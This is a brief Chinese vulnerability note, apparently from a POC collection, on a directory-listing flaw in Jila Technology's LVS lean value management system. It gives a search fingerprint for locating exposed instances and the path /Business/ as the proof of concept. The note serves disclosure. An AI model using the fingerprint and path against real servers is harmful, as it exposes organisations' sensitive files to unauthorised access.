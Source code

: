 # 吉拉科技 LVS精益价值管理系统 Business 目录遍历漏洞

## 漏洞描述

杭州吉拉科技有限公司多个系统存在目录遍历漏洞，由于 /Business/ 访问控制不严，攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>吉拉科技 LVS精益价值管理系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Supperd By 吉拉科技"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645938012045-f9e4eba1-ff58-497b-8d64-09d215b57332.png)

验证POC

```javascript
/Business/
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645938036770-ffd291fc-bd09-49e6-8b33-7960c90cd97d.png)